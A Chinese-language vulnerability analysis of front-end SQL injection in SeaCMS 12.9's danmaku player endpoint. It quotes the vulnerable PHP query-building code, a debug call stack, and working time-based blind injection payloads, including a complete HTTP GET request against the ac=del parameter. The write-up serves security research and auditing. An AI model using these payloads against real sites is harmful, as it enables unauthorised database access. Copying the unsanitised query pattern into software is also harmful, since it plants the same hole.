# seacms 前台 sql 注入详细分析-先知社区

> **来源**: https://xz.aliyun.com/news/16690  
> **文章ID**: 16690

---

# seacms 前台 sql 注入详细分析

## 前言

\*\*文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担。\*\*

## 简单介绍

海洋 CMS 是一套专为不同需求的站长而设计的内容管理系统，灵活、方便、人性化设计、简单易用是最大的特色，可快速建立一个海量内容的专业网站。海洋 CMS 基于 PHP+MySql 技术开发，完全开源免费、无任何加密代码。

## 环境搭建

首先下载源码，直接去官网下载就好了，这里我下载的是 12.9 版本的源码，然后放入 phpstduy

然后导入 sql 数据库



然后访问

  
表示搭建成功

## 漏洞复现





## 调试分析

我们根据 exp 来到对应的文件

```
js/player/dmplayer/dmku/index.php
```

首先根据我们的 ac 来决定进入哪个判断

```
if ($_GET['ac'] == "edit") {
    $cid = $_POST['cid'] ?: showmessage(-1, null);
    $data = $d->编辑弹幕($cid) ?:  succeedmsg(0, '完成');
    exit;
}
```



成功传入我们的 payload

然后进入编辑弹幕方法



进入编辑弹幕

```
public static function 编辑_弹幕($cid)
{
    try {
        global $_config;
        $text = $_POST['text'];
        $color = $_POST['color'];
        $conn = @new mysqli($_config['数据库']['地址'], $_config['数据库']['用户名'], $_config['数据库']['密码'], $_config['数据库']['名称'], $_config['数据库']['端口']);
        
        $sql = "UPDATE sea_danmaku_list SET text='$text',color='$color' WHERE cid=$cid";
        $result = "UPDATE sea_danmaku_report SET text='$text',color='$color' WHERE cid=$cid";
        $conn->query($sql);
        $conn->query($result);
    } catch (PDOException $e) {
        showmessage(-1, '数据库错误:' . $e->getMessage());
    }
}
```



在这里已经生成了 sql 语句了，然后放入我们的 query

```
UPDATE sea_danmaku_list SET text='123',color='123' WHERE cid=(SELECT 1 FROM (SELECT SLEEP(6))x)--
```



然后直接放入查询，可以看到是没有过滤的，所以导致了我们的 sql 注入

## 拓展延申举一反三

当然本质上造成 sql 注入的是因为 query 方法没有任何的防护，所以我们还可以寻找使用 query 方法查询的地方

这里我们看看还有没有其他的点



根据查询的结果我们再次寻找

看到了

```
public static function 删除_弹幕数据($id)
{
    try {
        global $_config;
        $conn = @new mysqli($_config['数据库']['地址'], $_config['数据库']['用户名'], $_config['数据库']['密码'], $_config['数据库']['名称'], $_config['数据库']['端口']);
        $conn->set_charset('utf8');
        if ($_GET['type'] == "list") {
            $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";
            $result = "DELETE FROM sea_danmaku_list WHERE cid={$id}";
            $conn->query($sql);
            $conn->query($result);
        } else if ($_GET['type'] == "report") {
            $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";
            $conn->query($sql);
        }
    } catch (PDOException $e) {
        showmessage(-1, '数据库错误:' . $e->getMessage());
    }
}
```

这个和我们的编辑弹幕方法差不多，然后就是寻找如何控制输入点

一直往上找

```
public function 删除弹幕($id)
{
    //sql::插入_弹幕($data);
    sql::删除_弹幕数据($id);
}
```

```
if ($_GET['ac'] == "report") {
    $text = $_GET['text'];
    sql::举报_弹幕($text);
    showmessage(-3, '举报成功！感谢您为守护弹幕作出了贡献');
} else if ($_GET['ac'] == "dm" or $_GET['ac'] == "get") {
    $id = $_GET['id'] ?: showmessage(-1, null);
    $data = $d->弹幕池($id) ?: showmessage(23, []);
    showmessage(23, $data);
} else if ($_GET['ac'] == "list") {
    $data = $d->弹幕列表() ?: showmessage(0, []);
    showmessage(0, $data);
} else if ($_GET['ac'] == "reportlist") {
    $data = $d->举报列表() ?: showmessage(0, []);
    showmessage(0, $data);
} else if ($_GET['ac'] == "del") {
    $id = $_GET['id'] ?: succeedmsg(-1, null);
    $type = $_GET['type'] ?: succeedmsg(-1, null);
    $data = $d->删除弹幕($id) ?: succeedmsg(0, []);
    succeedmsg(23, true);
} else if ($_GET['ac'] == "so") {
    $key = $_GET['key'] ?: showmessage(0, null);
    $data = $d->搜索弹幕($key) ?: showmessage(0, []);
    showmessage(0, $data);
}
```

可以发现只需要我们的 ac=del

我们复现调试一下

```
GET /js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(1)))x)&type=list HTTP/1.1
Host: seacms:8181
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: XDEBUG_SESSION=PHPSTORM

```



```
mysqli.class.php:290, sql::删除_弹幕数据()
danmu.class.php:24, danmu->删除弹幕()
index.php:68, {main}()
```



成功
